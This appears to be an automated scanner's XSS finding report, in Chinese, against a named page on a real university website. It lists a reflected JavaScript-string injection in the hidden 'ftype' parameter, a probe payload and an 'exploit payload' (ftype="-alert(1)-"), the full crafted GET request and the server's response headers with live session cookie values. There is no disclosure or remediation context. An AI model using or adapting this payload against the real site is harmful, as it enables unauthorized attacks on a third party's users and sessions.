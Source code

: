 ## http://s.ecust.edu.cn/portal/schoolCourseInfo/getalldepartment
| Key | Value |
| --- | ----- |
| XSS类型 | Js StringToken |
| 时间 | 2024-11-07 18:18:52 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | ftype |
| 描述 | 可以使用"逃逸引号 |
| Payload | ftype="-ox7i91-" |
| 利用payload | ftype="-alert(1)-" |

### 请求包
```
GET /portal/schoolCourseInfo/getalldepartment?begindate=bn258&callback=d4yk3&categoryid=bckk1&enddate=jv6s7&from=glh55&ftype=%22-ox7i91-%22&keyword=thyz3&keywords=bwgk5&list_type=s4n49&month=qblo6&page=ssp30&pageNum=m83l6&search=ewj67&success=cf301&terms=rx8s0&thisurl=j9xl3&tid=kh7l8&token=ls7c7&unsubscribe_token=yx4k7&uri=aj615 HTTP/1.1
Host: s.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
X-Download-Options: noopen
X-Xss-Protection: 1; mode=block
Date: Thu, 07 Nov 2024 18:18:51 GMT
Set-Cookie: fanyaportal_jsessionid=3DCFB76260744E3AE4911A88E1C0F973.jvm14331; Path=/; HttpOnly fanyamoocs=11401F839C536D9E; Domain=ecust.edu.cn; Path=/; HttpOnly fanyaportala=790a0c1154716cb564e4c21e500bf22b; Path=/
X-Content-Type-Options: nosniff
Referrer-Policy: origin
Connection: keep-alive
X-Permitted-Cross-Domain-Policies: none
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
P3p: CP=CAO PSA OUR
Server: CXS
Content-Type: text/html;charset=UTF-8

```

